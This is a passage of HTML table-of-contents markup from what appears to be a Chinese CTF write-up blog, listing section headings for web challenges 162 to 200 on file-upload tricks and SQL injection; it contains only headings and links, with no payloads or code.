class="toc-link" href="#web162%E2%80%93%E6%89%93%E4%B8%AA%E7%82%B9%EF%BC%8C%E6%9C%89%E5%BE%88%E5%A4%9A%E8%A7%A3%E5%86%B3%E5%8A%9E%E6%B3%95"><span class="toc-number">77.</span> <span class="toc-text">web162–打个点，有很多解决办法</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-72"><span class="toc-number">77.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98%E2%80%93%E4%BC%AA%E5%8D%8F%E8%AE%AE%EF%BC%88%E4%B8%AA%E4%BA%BA%E7%9A%84%E6%80%9D%E8%B7%AF%EF%BC%89"><span class="toc-number">77.2.</span> <span class="toc-text">解题–伪协议（个人的思路）</span></a><ol class="toc-child"><li class="toc-item toc-level-3"><a class="toc-link" href="#%E6%AD%A5%E9%AA%A41-%E4%B8%8A%E4%BC%A0-user-ini%E6%96%87%E4%BB%B6"><span class="toc-number">77.2.1.</span> <span class="toc-text">步骤1 上传.user.ini文件</span></a></li><li class="toc-item toc-level-3"><a class="toc-link" href="#%E6%AD%A5%E9%AA%A42-%E4%B8%8A%E4%BC%A0f%E6%96%87%E4%BB%B6%E8%BF%9B%E8%A1%8C%E5%8C%85%E5%90%AB"><span class="toc-number">77.2.2.</span> <span class="toc-text">步骤2 上传f文件进行包含</span></a><ol class="toc-child"><li class="toc-item toc-level-4"><a class="toc-link" href="#%E5%AE%8C%E6%95%B4WP"><span class="toc-number">77.2.2.1.</span> <span class="toc-text">完整WP</span></a></li><li class="toc-item toc-level-4"><a class="toc-link" href="#%E6%8B%BC%E6%8E%A5%E5%AD%97%E7%AC%A6%E4%B8%B2-php%E5%92%8C"><span class="toc-number">77.2.2.2.</span> <span class="toc-text">拼接字符串 php和.</span></a></li><li class="toc-item toc-level-4"><a class="toc-link" href="#%E6%8B%BC%E6%8E%A5flag-php"><span class="toc-number">77.2.2.3.</span> <span class="toc-text">拼接flag.php</span></a></li><li class="toc-item toc-level-4"><a class="toc-link" href="#%E6%8B%BC%E6%8E%A5%E4%BC%AA%E5%8D%8F%E8%AE%AE%E9%83%A8%E5%88%86%E5%92%8C%E5%BC%80%E5%A7%8B%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB"><span class="toc-number">77.2.2.4.</span> <span class="toc-text">拼接伪协议部分和开始文件包含</span></a></li></ol></li><li class="toc-item toc-level-3"><a class="toc-link" href="#%E6%9C%80%E7%BB%88%E7%9A%84flag%EF%BC%9A"><span class="toc-number">77.2.3.</span> <span class="toc-text">最终的flag：</span></a></li><li class="toc-item toc-level-3"><a class="toc-link" href="#%E6%80%BB%E7%BB%93"><span class="toc-number">77.2.4.</span> <span class="toc-text">总结</span></a></li></ol></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98%E2%80%93%E8%BF%9C%E7%A8%8B%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB"><span class="toc-number">77.3.</span> <span class="toc-text">解题–远程文件包含</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#upload%E6%BA%90%E4%BB%A3%E7%A0%81"><span class="toc-number">77.4.</span> <span class="toc-text">upload源代码</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web163"><span class="toc-number">78.</span> <span class="toc-text">web163</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-73"><span class="toc-number">78.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-68"><span class="toc-number">78.2.</span> <span class="toc-text">解题</span></a><ol class="toc-child"><li class="toc-item toc-level-3"><a class="toc-link" href="#%E9%83%A8%E7%BD%B2%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC%E7%9A%84%E5%AD%98%E6%94%BE%E6%9C%8D%E5%8A%A1%E5%99%A8"><span class="toc-number">78.2.1.</span> <span class="toc-text">部署一句话木马的存放服务器</span></a></li><li class="toc-item toc-level-3"><a class="toc-link" href="#%E4%BD%BF%E7%94%A8%E9%85%8D%E7%BD%AE%E6%96%87%E4%BB%B6-user-ini-%E8%BF%9B%E8%A1%8C%E8%BF%9C%E7%A8%8B%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB"><span class="toc-number">78.2.2.</span> <span class="toc-text">使用配置文件 .user.ini 进行远程文件包含</span></a></li><li class="toc-item toc-level-3"><a class="toc-link" href="#upload%E6%96%87%E4%BB%B6%E5%86%85%E5%AE%B9"><span class="toc-number">78.2.3.</span> <span class="toc-text">upload文件内容</span></a></li></ol></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web164%E2%80%93png%E4%BA%8C%E6%AC%A1%E6%B8%B2%E6%9F%93"><span class="toc-number">79.</span> <span class="toc-text">web164–png二次渲染</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-74"><span class="toc-number">79.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-69"><span class="toc-number">79.2.</span> <span class="toc-text">解题</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#upload%E6%96%87%E4%BB%B6%E7%9A%84%E5%86%85%E5%AE%B9"><span class="toc-number">79.3.</span> <span class="toc-text">upload文件的内容</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web165"><span class="toc-number">80.</span> <span class="toc-text">web165</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-75"><span class="toc-number">80.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-70"><span class="toc-number">80.2.</span> <span class="toc-text">解题</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E7%96%91%E9%9A%BE"><span class="toc-number">80.3.</span> <span class="toc-text">疑难</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web166"><span class="toc-number">81.</span> <span class="toc-text">web166</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-76"><span class="toc-number">81.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-71"><span class="toc-number">81.2.</span> <span class="toc-text">解题</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%85%B6%E5%AE%83%E6%96%87%E4%BB%B6%E7%9A%84%E5%86%85%E5%AE%B9"><span class="toc-number">81.3.</span> <span class="toc-text">其它文件的内容</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web167"><span class="toc-number">82.</span> <span class="toc-text">web167</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-77"><span class="toc-number">82.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-72"><span class="toc-number">82.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web168"><span class="toc-number">83.</span> <span class="toc-text">web168</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-78"><span class="toc-number">83.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-73"><span class="toc-number">83.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web169-170"><span class="toc-number">84.</span> <span class="toc-text">web169~170</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-79"><span class="toc-number">84.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-74"><span class="toc-number">84.2.</span> <span class="toc-text">解题</span></a><ol class="toc-child"><li class="toc-item toc-level-3"><a class="toc-link" href="#upload-php-169"><span class="toc-number">84.2.1.</span> <span class="toc-text">upload.php - 169</span></a></li><li class="toc-item toc-level-3"><a class="toc-link" href="#upload-php-170"><span class="toc-number">84.2.2.</span> <span class="toc-text">upload.php - 170</span></a></li></ol></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#SQL%E6%B3%A8%E5%85%A5"><span class="toc-number">85.</span> <span class="toc-text">SQL注入</span></a></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web171-%E9%99%90%E5%88%B6%E5%9B%9E%E6%98%BE"><span class="toc-number">86.</span> <span class="toc-text">web171-限制回显</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-80"><span class="toc-number">86.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-75"><span class="toc-number">86.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web172"><span class="toc-number">87.</span> <span class="toc-text">web172</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-81"><span class="toc-number">87.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-76"><span class="toc-number">87.2.</span> <span class="toc-text">解题</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E6%80%BB%E7%BB%93-1"><span class="toc-number">87.3.</span> <span class="toc-text">总结</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web173"><span class="toc-number">88.</span> <span class="toc-text">web173</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-82"><span class="toc-number">88.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-77"><span class="toc-number">88.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web174"><span class="toc-number">89.</span> <span class="toc-text">web174</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-83"><span class="toc-number">89.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-78"><span class="toc-number">89.2.</span> <span class="toc-text">解题</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E6%80%BB%E7%BB%93-2"><span class="toc-number">89.3.</span> <span class="toc-text">总结</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web175"><span class="toc-number">90.</span> <span class="toc-text">web175</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-84"><span class="toc-number">90.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-79"><span class="toc-number">90.2.</span> <span class="toc-text">解题</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E6%80%BB%E7%BB%93-3"><span class="toc-number">90.3.</span> <span class="toc-text">总结</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web176-%E6%8D%A2%E6%A8%A1%E5%BC%8F%E9%99%90%E5%88%B6%E8%BE%93%E5%85%A5"><span class="toc-number">91.</span> <span class="toc-text">web176-换模式限制输入</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-85"><span class="toc-number">91.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-80"><span class="toc-number">91.2.</span> <span class="toc-text">解题</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E6%80%BB%E7%BB%93-4"><span class="toc-number">91.3.</span> <span class="toc-text">总结</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web177"><span class="toc-number">92.</span> <span class="toc-text">web177</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-86"><span class="toc-number">92.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-81"><span class="toc-number">92.2.</span> <span class="toc-text">解题</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E6%80%BB%E7%BB%93-5"><span class="toc-number">92.3.</span> <span class="toc-text">总结</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web178"><span class="toc-number">93.</span> <span class="toc-text">web178</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-87"><span class="toc-number">93.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-82"><span class="toc-number">93.2.</span> <span class="toc-text">解题</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E7%BB%93%E6%9E%9C"><span class="toc-number">93.3.</span> <span class="toc-text">结果</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web179"><span class="toc-number">94.</span> <span class="toc-text">web179</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-88"><span class="toc-number">94.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-83"><span class="toc-number">94.2.</span> <span class="toc-text">解题</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E7%BB%93%E8%AE%BA"><span class="toc-number">94.3.</span> <span class="toc-text">结论</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web180"><span class="toc-number">95.</span> <span class="toc-text">web180</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-89"><span class="toc-number">95.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-84"><span class="toc-number">95.2.</span> <span class="toc-text">解题</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E6%80%BB%E7%BB%93-6"><span class="toc-number">95.3.</span> <span class="toc-text">总结</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web181-web182"><span class="toc-number">96.</span> <span class="toc-text">web181~web182</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-90"><span class="toc-number">96.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-85"><span class="toc-number">96.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web183-%E5%B8%83%E5%B0%94%E6%B3%A8%E5%85%A5"><span class="toc-number">97.</span> <span class="toc-text">web183-布尔注入</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-91"><span class="toc-number">97.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-86"><span class="toc-number">97.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web184"><span class="toc-number">98.</span> <span class="toc-text">web184</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-92"><span class="toc-number">98.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-87"><span class="toc-number">98.2.</span> <span class="toc-text">解题</span></a><ol class="toc-child"><li class="toc-item toc-level-3"><a class="toc-link" href="#%E8%84%9A%E6%9C%AC"><span class="toc-number">98.2.1.</span> <span class="toc-text">脚本</span></a></li><li class="toc-item toc-level-3"><a class="toc-link" href="#%E5%8E%9F%E7%90%86"><span class="toc-number">98.2.2.</span> <span class="toc-text">原理</span></a></li><li class="toc-item toc-level-3"><a class="toc-link" href="#%E5%8F%98%E7%9B%B8%E8%A7%A3%E5%86%B3"><span class="toc-number">98.2.3.</span> <span class="toc-text">变相解决</span></a></li></ol></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E6%80%BB%E7%BB%93-7"><span class="toc-number">98.3.</span> <span class="toc-text">总结</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web185"><span class="toc-number">99.</span> <span class="toc-text">web185</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-93"><span class="toc-number">99.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-88"><span class="toc-number">99.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web186"><span class="toc-number">100.</span> <span class="toc-text">web186</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-94"><span class="toc-number">100.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-89"><span class="toc-number">100.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web187%E2%80%93%E6%8D%A2%E6%A8%A1%E5%BC%8F-%E8%B4%A6%E5%AF%86"><span class="toc-number">101.</span> <span class="toc-text">web187–换模式-账密</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-95"><span class="toc-number">101.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-90"><span class="toc-number">101.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web188"><span class="toc-number">102.</span> <span class="toc-text">web188</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-96"><span class="toc-number">102.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-91"><span class="toc-number">102.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web189"><span class="toc-number">103.</span> <span class="toc-text">web189</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-97"><span class="toc-number">103.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-92"><span class="toc-number">103.2.</span> <span class="toc-text">解题</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E6%80%BB%E7%BB%93-8"><span class="toc-number">103.3.</span> <span class="toc-text">总结</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web190%E2%80%93-%E9%A2%98%E7%9B%AE%E6%98%8E%E5%86%99%E5%B8%83%E5%B0%94%E7%9B%B2%E6%B3%A8"><span class="toc-number">104.</span> <span class="toc-text">web190–(题目明写布尔盲注)</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-98"><span class="toc-number">104.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-93"><span class="toc-number">104.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web191"><span class="toc-number">105.</span> <span class="toc-text">web191</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-99"><span class="toc-number">105.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-94"><span class="toc-number">105.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web192"><span class="toc-number">106.</span> <span class="toc-text">web192</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-100"><span class="toc-number">106.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-95"><span class="toc-number">106.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web193"><span class="toc-number">107.</span> <span class="toc-text">web193</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-101"><span class="toc-number">107.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-96"><span class="toc-number">107.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web194"><span class="toc-number">108.</span> <span class="toc-text">web194</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-102"><span class="toc-number">108.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-97"><span class="toc-number">108.2.</span> <span class="toc-text">解题</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web195%E2%80%93-%E6%98%8E%E5%86%99%E5%A0%86%E5%8F%A0%E6%B3%A8%E5%85%A5"><span class="toc-number">109.</span> <span class="toc-text">web195–(明写堆叠注入)</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-103"><span class="toc-number">109.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-98"><span class="toc-number">109.2.</span> <span class="toc-text">解题</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E6%94%B6%E8%8E%B7-2"><span class="toc-number">109.3.</span> <span class="toc-text">收获</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web196"><span class="toc-number">110.</span> <span class="toc-text">web196</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-104"><span class="toc-number">110.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-99"><span class="toc-number">110.2.</span> <span class="toc-text">解题</span></a><ol class="toc-child"><li class="toc-item toc-level-3"><a class="toc-link" href="#%E6%96%B9%E6%B3%951"><span class="toc-number">110.2.1.</span> <span class="toc-text">方法1</span></a></li><li class="toc-item toc-level-3"><a class="toc-link" href="#%E6%96%B9%E6%B3%952"><span class="toc-number">110.2.2.</span> <span class="toc-text">方法2</span></a></li></ol></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web197"><span class="toc-number">111.</span> <span class="toc-text">web197</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-105"><span class="toc-number">111.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-100"><span class="toc-number">111.2.</span> <span class="toc-text">解题</span></a><ol class="toc-child"><li class="toc-item toc-level-3"><a class="toc-link" href="#%E6%96%B9%E6%B3%951-%E5%8D%A1bug%E5%BC%8F%E7%9A%84%E5%8F%96flag"><span class="toc-number">111.2.1.</span> <span class="toc-text">方法1 卡bug式的取flag</span></a></li><li class="toc-item toc-level-3"><a class="toc-link" href="#%E6%96%B9%E6%B3%952-%E9%BB%98%E8%AE%A4%E6%B3%84%E9%9C%B2%E7%9A%84%E8%B4%A6%E5%AF%86%E7%99%BB%E5%BD%95"><span class="toc-number">111.2.2.</span> <span class="toc-text">方法2  默认泄露的账密登录</span></a></li><li class="toc-item toc-level-3"><a class="toc-link" href="#%E6%96%B9%E6%B3%953-%E5%88%A0%E9%99%A4%E8%A1%A8-%E5%88%9B%E5%BB%BA%E8%A1%A8-%E6%8F%92%E5%85%A5%E6%95%B0%E6%8D%AE"><span class="toc-number">111.2.3.</span> <span class="toc-text">方法3 删除表+创建表+插入数据</span></a></li></ol></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web198"><span class="toc-number">112.</span> <span class="toc-text">web198</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-106"><span class="toc-number">112.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-101"><span class="toc-number">112.2.</span> <span class="toc-text">解题</span></a><ol class="toc-child"><li class="toc-item toc-level-3"><a class="toc-link" href="#%E6%96%B9%E6%B3%951-%E9%9D%9E%E9%A2%84%E6%9C%9Fshow%E5%92%8C%E6%B3%84%E5%AF%86%E8%B4%A6%E6%88%B7%E7%99%BB%E5%BD%95"><span class="toc-number">112.2.1.</span> <span class="toc-text">方法1 非预期show和泄密账户登录</span></a></li><li class="toc-item toc-level-3"><a class="toc-link" href="#%E6%96%B9%E6%B3%952-%E7%9B%B4%E6%8E%A5%E6%8F%92%E5%85%A5%E8%B4%A6%E5%AF%86%E8%8E%B7%E5%8F%96flag"><span class="toc-number">112.2.2.</span> <span class="toc-text">方法2 直接插入账密获取flag</span></a></li><li class="toc-item toc-level-3"><a class="toc-link" href="#%E6%96%B9%E6%B3%953-%E4%BF%AE%E6%94%B9%E5%AD%97%E6%AE%B5%E5%90%8D"><span class="toc-number">112.2.3.</span> <span class="toc-text">方法3 修改字段名</span></a></li></ol></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web199"><span class="toc-number">113.</span> <span class="toc-text">web199</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-107"><span class="toc-number">113.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-102"><span class="toc-number">113.2.</span> <span class="toc-text">解题</span></a><ol class="toc-child"><li class="toc-item toc-level-3"><a class="toc-link" href="#%E6%96%B9%E6%B3%951-%E9%9D%9E%E9%A2%84%E6%9C%9Fshow%E5%92%8C%E6%B3%84%E5%AF%86%E8%B4%A6%E6%88%B7%E7%99%BB%E5%BD%95-1"><span class="toc-number">113.2.1.</span> <span class="toc-text">方法1 非预期show和泄密账户登录</span></a></li><li class="toc-item toc-level-3"><a class="toc-link" href="#%E6%96%B9%E6%B3%952-%E4%BF%AE%E6%94%B9%E5%AD%97%E6%AE%B5%E5%90%8D"><span class="toc-number">113.2.2.</span> <span class="toc-text">方法2 修改字段名</span></a></li></ol></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E6%80%BB%E7%BB%93-9"><span class="toc-number">113.3.</span> <span class="toc-text">总结</span></a></li></ol></li><li class="toc-item toc-level-1"><a class="toc-link" href="#web200"><span class="toc-number">114.</span> <span class="toc-text">web200</span></a><ol class="toc-child"><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8E%9F%E5%A7%8B%E4%BF%A1%E6%81%AF-108"><span class="toc-number">114.1.</span> <span class="toc-text">原始信息</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E8%A7%A3%E9%A2%98-103"><span class="toc-number">114.2.</span> <span class="toc-text">解题</span></a><ol 